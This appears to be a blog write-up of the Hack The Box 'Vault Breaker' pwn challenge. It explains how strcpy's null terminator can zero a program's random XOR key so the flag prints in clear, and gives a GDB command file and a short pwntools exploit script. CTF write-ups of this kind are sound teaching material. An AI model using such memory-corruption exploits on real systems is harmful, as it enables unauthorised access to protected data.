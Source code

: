 ```yaml
---
layout: post
title:  Hack The Box - Vault Breaker
description: Vault Breaker pwn challenge
date: 2024-07-15
image: '/images/vault_breaker/Screenshot_2024-07-15.png'
image_caption: ''
tags: [htb, ctf, pwn, binexp, strcpy, easy]
---
```


This was a "very easy" challenge. That's relative, but it was *simple*.

With some GDB-fu and manual dynamic analysis we can reverse engineer a way to get the flag.

> TL;DR - Abuse strcpy to zero the program's XOR key. It will print the flag.

## The Program
The program's basic functionality is
1. Generate a random 32 byte key by reading `/dev/urandom`
2. Present the user with a menu
3. If the user enters `1`, we enter a key generation routine
    * Users control the length of the new key
    * The same place in memory is used, every time
    * After the routine we return to the original menu
4. If `2` is entered
    * the 32 bytes stored in memory is used to byte-wise XOR the flag
    * the result is printed
    * Any byte XOR'd with `0` is itself ;)

![XOR'd flag]({{site.baseURL}}/images/vault_breaker/Screenshot_2024-07-15_3.png)
*flag.txt "encrypted" with random bytes*

The vulnerability in this application is the use of `strcpy` to move random bytes
into the `random_key` memory.

According to [man pages](https://man7.org/linux/man-pages/man3/strcpy.3.html) for `man (3) strcpy`, the resulting string is null-terminated. We can abuse this behavior to zero the key used to XOR the flag. The trick is to zero the memory highest byte, first, because `strcpy` will overwrite previously written null bytes if we start from the lowest byte.

## Hints
1. The GDB command `x/32bx &random_key` shows the bytes used for the key. Watch it change as the program generates key keys of various lengths.
2. Set the key from the highest byte, first (31, 30, 29, ...)

![paused execution]({{site.baseUrl}}/images/vault_breaker/Screenshot_2024-07-15_2.png)
*execution while zero'ing xor key*

## Appendix I: Resources

GDB Command file (used with `-x`)

```bash
b *new_key_gen
b *secure_password + 410
commands 1
x/32bx &random_key
end
```

Script main

```python
io = start()

i = 31

input("\n[Press ENTER to start]\n")
while i >= 0:
    io.info(f"zeroing random_key[{i:02d}]")
    io.readuntil(b'> ')
    io.sendline(b'1')
    io.readuntil(b': ')
    i_string = str(i).encode('utf-8')
    io.sendline(i_string)
    i -= 1

io.readuntil(b'> ')
io.sendline(b'2')
io.readuntil(b'Vault: ')

flag = io.readall().decode()
```

<div class="gallery-box">
  <div class="gallery">
    <img src="/images/earth_orbit.jpg" loading="lazy" alt="void">
  </div>
  <em>Photo from <a href="https://unsplash.com/" target="_blank">Unsplash</a></em>
</div>
